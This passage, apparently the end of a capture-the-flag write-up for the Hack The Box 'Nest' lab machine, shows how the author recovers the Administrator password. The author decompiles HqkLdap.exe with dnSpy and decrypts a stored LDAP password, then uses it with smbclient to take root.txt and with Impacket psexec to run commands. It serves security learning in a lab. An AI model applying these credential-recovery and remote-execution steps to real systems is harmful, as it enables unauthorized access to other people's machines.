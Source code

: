     Current Directory: ldap
    >showquery 2

    Domain=nest.local
    Port=389
    BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
    User=Administrator
    Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

## "Reversing" HqkLdap.exe

We download the latest release of [dnSpy](https://github.com/0xd4d/dnSpy) and
load the binary. We quickly find some encryption and decryption functions. They
are similar to the ones in the Utils.vb but use different parameters
(passphrase, salt, number of password iteration, initialisation vector and key
size).

[dnSpy](/media/2020.06/nest_01.png)

We change the values in our previous module in MS Visual Basic 2010 Express and
rerun the code. The only changed line is the following:

`Console.WriteLine(Decrypt("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=", "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256))`

This give us the administrator password: XtH4nkS4Pl4y1nGX.

We connect to the "C$" share as administrator and are able to get the root flag.

    :::text
    # smbclient //10.10.10.178/C$ -U "Administrator"%"XtH4nkS4Pl4y1nGX"
    Try "help" to get a list of possible commads.
    smb: \> cd Users\Administrator\
    smb: \Users\Administrator\> cd Desktop\
    smb: \Users\Administrator\Desktop\> ls
      .                                  DR        0  Sun Jan 26 02:20:50 2020
      ..                                 DR        0  Sun Jan 26 02:20:50 2020
      desktop.ini                       AHS      282  Sat Jan 25 17:02:44 2020
      root.txt                            A       32  Mon Aug  5 18:27:26 2019

                    10485247 blocks of size 4096. 6449582 blocks available
    smb: \Users\Administrator\Desktop\> mget root.txt
    Get file root.txt? y
    getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)n

We can also use psexec to directly execute commands on the system as
administrator.

    :::text
    python psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
